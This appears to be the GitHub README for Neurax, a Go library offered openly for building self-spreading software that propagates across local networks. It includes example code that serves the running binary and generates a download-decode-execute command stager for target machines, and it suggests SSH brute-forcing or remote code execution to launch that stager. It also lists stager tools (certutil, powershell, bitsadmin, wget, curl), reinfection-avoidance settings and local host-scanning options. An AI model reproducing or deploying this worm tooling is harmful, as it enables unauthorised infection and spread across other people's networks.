 <h1 align="center"> Neurax </h1> <br>

<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>

<p align="center"> A library that aids in creation of self-spreading software</p>

## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.
### Example code

```
package main
import "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  neurax_config.port = 5555
  neurax_config.stager = "wget"

  //Start a server that exposes the current binary in the background
  go neurax_server()
  
  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := neurax_stager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

```
neurax_config.stager           - Name of the command stager to use (default: random, platform-compatible)
                                 Available stagers: certutil, powershell, bitsadmin, wget, curl
neurax_config.port             - Port to serve on (default: random from 2222 to 9999)
neurax_config.platform         - Platform to target, currently only Windows and Linux (default: detected automatically)
neurax_config.path             - The path under which binary is saved on the host (default: random)
neurax_config.file_name        - Name under which downloaded binary should be served and then saved (default: random)
neurax_config.base64           - Encode the transferred binary in base64 (default: false)
neurax_config.prevent_reinfect - Indicates whether a random port should be opened for knocking to prevent multiple infections of the same host (default: true)
neurax_config.required_port    - Neurax_scan() treats host as active only when it has a specific port opened (default: none)
neurax_config.scan_passive     - Neurax_scan() detects hosts using passive ARP monitoring (default: false)
neurax_config.cidr             - Neurax_scan() scans this CIDR (default: local IP + "\24")
neurax_config.threads          - Number of threads to use for neurax_scan() (default: 10)
neurax_config.full_range       - Neurax_scan() scans all ports of target host to determine if it is active (default: from 19 to 300)
```

### Finding new targets
Function `neurax_scan(c chan string)` enables detection of active hosts on local network.
It accepts a channel of type string as it's only argument and should be launched as a goroutine.
Any scanned host will be sent through that channel as soon as it was classified as active.
Host is treated as active when it has at least 1 open port + fullfils conditions specified within `neurax_config`.

## Artwork credits

====> [Seto01](https://www.deviantart.com/seto01/art/New-disease-parasite-438032692) <====

## License
This software is under [MIT license](https://en.wikipedia.org/wiki/MIT_License)
